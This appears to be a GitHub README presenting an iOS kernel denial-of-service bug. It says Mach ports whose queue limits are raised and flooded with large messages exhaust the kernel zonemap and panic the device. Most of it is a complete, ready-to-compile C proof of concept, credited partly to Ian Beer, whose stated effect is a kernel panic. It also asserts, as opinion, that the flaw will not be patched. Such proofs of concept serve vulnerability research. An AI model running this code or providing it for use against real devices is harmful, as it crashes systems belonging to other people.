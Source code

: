 # Kernel Memoryleak as result of zonemap exhaustion

This bug causes a kernel panic due to the the kernel zonemap being exhausted as result of a large number of messages with a very large body being sent to a machport.  
As machports have limits there is another feature in this logic that allows the attacker to raise the number of messages queued for a port resulting in a fast exhaustion of the zonemap.  
This issue mostlikely will not get patched because it is part of the design of the iOS kernel and therefore requires a lot of changes in the design.  
It is an example on why Apple Inc. stopped caring about kernel level denial of service vulnerabilities.  

```C
/*
 * Disclaimer: This code is mainly from Ian Beer and used in popular jailbreak solutions.
 *
 */

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <mach/mach.h>

/* Taken from Ian Beer, this is to get the correct size for a specific kalloc zone but we don't actually need it in this usecase */
int message_size_for_kalloc_size(int kalloc_size) {
    return ((3*kalloc_size)/4) - 0x74;
}

/* Any call to this function will result in a kernel panic */
void exhaust_zonemap(void)
{
    /* We use the simplest mach message a port can get */
    struct simple_msg  {
        mach_msg_header_t hdr;
        char buf[0];
    };
    
    //Just a large number of iterations to speed things up, doesn't necessarily need to be the pagesize
    mach_vm_size_t pagesize = sysconf(_SC_PAGESIZE);
    //Craft a big message body so we can exhaust the zonemap.
    uint32_t bodysz = message_size_for_kalloc_size((int)pagesize) - sizeof(struct simple_msg);
    void* body = malloc(bodysz);
    memset(body, 'A', bodysz);
    mach_msg_size_t msg_size = sizeof(struct simple_msg) + bodysz;
    struct simple_msg* msg = malloc(msg_size);
    memset(msg, 0, sizeof(struct simple_msg));
    memcpy(&msg->buf[0], body, bodysz);
    
    for(int  i = 0; i < pagesize; i++){
        mach_port_t q = MACH_PORT_NULL; //port we want to fill the queue of in the current iteration
        kern_return_t err = KERN_FAILURE;
        
        //Allocate the port to fill the queue of
        err = mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &q);
        if (err != KERN_SUCCESS) {
            printf(" [-] failed to allocate port\n");
            exit(EXIT_FAILURE);
        }
        
        //Raise the limits of the port so that we can send a lot of messages to the port
        mach_port_limits_t limits = {0};
        limits.mpl_qlimit = MACH_PORT_QLIMIT_LARGE;
        err = mach_port_set_attributes(mach_task_self(), q, MACH_PORT_LIMITS_INFO, (mach_port_info_t)&limits, MACH_PORT_LIMITS_INFO_COUNT);
        if (err != KERN_SUCCESS) {
            printf(" [-] failed to increase queue limit\n");
            exit(EXIT_FAILURE);
        }
        

        //Lets start sending 256 messages with our body to the port and see the zonemap exhaust :)
        for (int i = 0; i < 256; i++) { // was MACH_PORT_QLIMIT_LARGE
            msg->hdr.msgh_bits = MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
            msg->hdr.msgh_size = msg_size;
            msg->hdr.msgh_remote_port = q;
            msg->hdr.msgh_local_port = MACH_PORT_NULL;
            msg->hdr.msgh_id = 0x41414141;
            
            err = mach_msg(&msg->hdr,
                           MACH_SEND_MSG|MACH_MSG_OPTION_NONE,
                           msg_size,
                           0,
                           MACH_PORT_NULL,
                           MACH_MSG_TIMEOUT_NONE,
                           MACH_PORT_NULL);
            
            if (err != KERN_SUCCESS) {
                printf(" [-] failed to send message %x (%d): %s\n", err, i, mach_error_string(err));
                exit(EXIT_FAILURE);
            }
        }
    }
    if(body) {
        free(body);
    }
    body = NULL;
}

int main(int argc, char* argv[])
{
    exhaust_zonemap();
    return 0;
}


  
```
